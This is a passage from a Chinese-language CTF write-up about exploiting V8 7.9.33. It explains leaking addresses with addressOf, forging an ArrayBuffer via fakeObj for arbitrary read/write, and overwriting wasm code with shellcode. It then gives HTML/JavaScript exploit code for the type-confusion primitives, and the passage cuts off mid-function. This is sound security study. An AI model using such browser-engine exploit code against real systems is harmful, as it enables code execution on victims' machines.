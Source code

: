 ## 0x03 漏洞利用

本题的v8版本为`7.9.33`，在低版本中，还没有`compression pointer（指针压缩）`机制，因此`addressOf`可以直接泄露出8字节地址，然后利用fakeObj伪造一个`ArrayBuffer`实现任意地址读写，由于没有关闭`wasm`，我们可以利用任意地址读写，修改wasm的shellcode，然后执行wasm就可以执行到我们的shellcode。

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
  &lt;body&gt;
    &lt;script&gt;
var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

function p64f(value1,value2) `{`
   dv.setUint32(0,value1,true);
   dv.setUint32(0x4,value2,true);
   return dv.getFloat64(0,true);
`}`

function i2f64(value) `{`
   dv.setBigUint64(0,BigInt(value),true);
   return dv.getFloat64(0,true);
`}`

function u64f(value) `{`
   dv.setFloat64(0,value,true);
   return dv.getBigUint64(0,true);
`}`


function addressOf(obj) `{`
   var obj1 = `{`a:`{`b:1.1`}``}`;
   let f = eval(`(obj1)=&gt;`{`
      return obj1.a.b;
   `}``);
   for (var i=0;i&lt;0x20000;i++) `{`
      f(obj1);
   `}`
   obj1.a = `{`c:obj`}`;
   var addr = f(obj1);
   return u64f(addr) - 1n;
`}`

function addressOf1(obj) `{`
   var obj1 = `{`e:`{`f:1.1`}``}`;
   let f = eval(`(obj1)=&gt;`{`
      return obj1.e.f;
   `}``);
   for (var i=0;i&lt;0x20000;i++) `{`
      f(obj1);
   `}`
   obj1.e = `{`g:obj`}`;
   var addr = f(obj1);
   return u64f(addr) - 1n;
`}`


function fakeObject(addr) `{`
   var obj2 = `{`x:`{`y:buf`}``}`;
   let f = eval(`(obj2)=&gt;`{`
      return obj2.x.y;
   `}``);
   for (var i=0;i&lt;0x20000;i++) `{`
      f(obj2);
```